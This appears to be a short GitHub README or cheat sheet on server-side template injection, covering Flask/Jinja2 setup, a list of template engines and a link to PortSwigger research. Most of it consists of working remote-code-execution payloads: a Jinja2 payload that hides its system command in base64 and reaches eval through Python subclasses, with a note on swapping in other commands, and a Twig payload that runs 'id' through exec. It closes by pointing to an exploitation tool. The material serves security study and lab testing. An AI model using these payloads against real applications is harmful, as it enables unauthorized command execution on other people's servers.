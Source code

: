 # Requirements

* apt-get install python
* apt-get install python-pip
* pip install flask
* pip install jinja2

# Original Blog:
https://portswigger.net/research/server-side-template-injection

# Web Template Engines

* FreeMarker
	Java-based template engine
* Velocity
	Java-based template engine
* Smarty
	PHP Template engine
* Twig
	PHP Template engine
* Jade 
	Node.js Template engine
* Jinja2
	Python/Flask Template engine

# Basic Payload

* `{{7*7}}`
* `{{7*'7'}}`

# RCE PAYLOAD - JINJA2
`{{5096754695}}{{''}}{%+set+d+=+"eval(__import__('base64').urlsafe_b64decode('X19pbXBvcnRfXygnb3MnKS5wb3BlbihfX2ltcG9ydF9fKCdiYXNlNjQnKS51cmxzYWZlX2I2NGRlY29kZSgnZFc1aGJXVWdMV0U9JykuZGVjb2RlKCkpLnJlYWQoKQ=='))"+%}{%+for+c+in+[].__class__.__base__.__subclasses__()+%}+{%+if+c.__name__+==+'catch_warnings'+%}
{%+for+b+in+c.__init__.__globals__.values()+%}+{%+if+b.__class__+==+{}.__class__+%}
{%+if+'eval'+in+b.keys()+%}
{{+b['eval'](d)+}}
{%+endif+%}+{%+endif+%}+{%+endfor+%}
{%+endif+%}+{%+endfor+%}{{''}}{{9776394213}}`

Note: Decode decode base64 string to to place system commands

# RCE PAYLOAD - TWIG
`{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}`

# Automation tool for SSTI exploitation:
TPLMap
